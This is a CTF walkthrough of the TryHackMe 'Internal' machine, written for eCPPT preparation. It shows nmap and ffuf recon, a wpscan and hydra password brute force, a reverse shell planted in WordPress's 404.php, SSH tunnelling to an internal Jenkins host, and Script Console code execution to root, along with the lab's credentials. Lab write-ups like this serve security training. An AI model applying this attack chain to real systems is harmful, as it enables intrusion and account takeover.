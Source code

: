 # Internal

Preparation for eCPPT

# Recon

### PortScan

`nmap -sCV 10.10.168.146`

![Untitled](images/Untitled.png)

Lets add the name of the machine to `/etc/hosts`

![Untitled](images/Untitled%201.png)

## Web

### Directory Discovery

`ffuf -u [http://internal.thm/FUZZ](http://internal.thm/FUZZ) -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

![Untitled](images/Untitled%202.png)

### Wordpress

By using username `admin` we could enumerate the user, now its time to find the password

![Untitled](images/Untitled%203.png)

**Brute force**

`wpscan --url [http://internal.thm/blog/wp-login.php](http://internal.thm/blog/wp-login.php) --usernames admin --passwords /usr/share/wordlists/rockyou.txt`

Version

![Untitled](images/Untitled%204.png)

**Credentials**

`admin:my2boys`

![Untitled](images/Untitled%205.png)

**Access to WordPress**

![Untitled](images/Untitled%206.png)

Inside the theme customization edit and put a reverse shell inside the file `404.php`

![Untitled](images/Untitled%207.png)

Now open a listener on the attacker machine

`nc -lvnp 9999`

Open the page that you put the reverse shell

![Untitled](images/Untitled%208.png)

We can verify that we got a shell

![Untitled](images/Untitled%209.png)

## Privileges Escalation

Searching for mysql credentials

`cat wp-config.php`

![Untitled](images/Untitled%2010.png)

### SQL

Login to sql using those credentials

`mysql -u wordpress -p`

`wordpress123`

![Untitled](images/Untitled%2011.png)

Extracting **admin** credentials

![Untitled](images/Untitled%2012.png)

Password Hash > `$P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/`

![Untitled](images/Untitled%2013.png)

### Aubreanna User

`cat /opt/wp-save.txt`

![Untitled](images/Untitled%2014.png)

`aubreanna:bubb13guM!@#123`

Login as SSH 

`ssh aubreanna@internal.thm`

![Untitled](images/Untitled%2015.png)

As we look for some files inside the machine we see that there is a internal machine

![Untitled](images/Untitled%2016.png)

## Pivoting

### SSH tunnel

With the credentials of the user aubreanna we setup an SSH tunnel for the internal machine

`ssh -L {LOCAL-PORT}:172.17.0.2:{TARGET-PORT} aubreanna@internal.thm`

`ssh -L 80:172.17.0.2:8080 aubreanna@internal.thm`

### Jenkins

![Untitled](images/Untitled%2017.png)

### Brute Force

`hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password”`

![Untitled](images/Untitled%2018.png)

Now its time for some `RCE`

![Untitled](images/Untitled%2019.png)

### RCE

On the manage Jenkins there is a Script Console so lets use it

![Untitled](images/Untitled%2020.png)

Now we have to prepare our netcat

`nc -lvnp 9999`

![Untitled](images/Untitled%2021.png)

I search for some RCE using Java Language and found this one

![Untitled](images/Untitled%2022.png)

So after setting our IP and our Port should be like this, and press `run`

![Untitled](images/Untitled%2023.png)

We can confirm that we got a shell on our listener

![Untitled](images/Untitled%2024.png)

**Upgrading the shell**

We found the machine has `python2` so we use it to upgrade the shell and set a terminal variable

![Untitled](images/Untitled%2025.png)

After some enumeration found a file named note.txt and there are some **root credentials**

![Untitled](images/Untitled%2026.png)

`root:tr0ub13guM!@#123`

With those credentials we escalate the privileges of the machine and getting the flag

![Untitled](images/Untitled%2027.png)
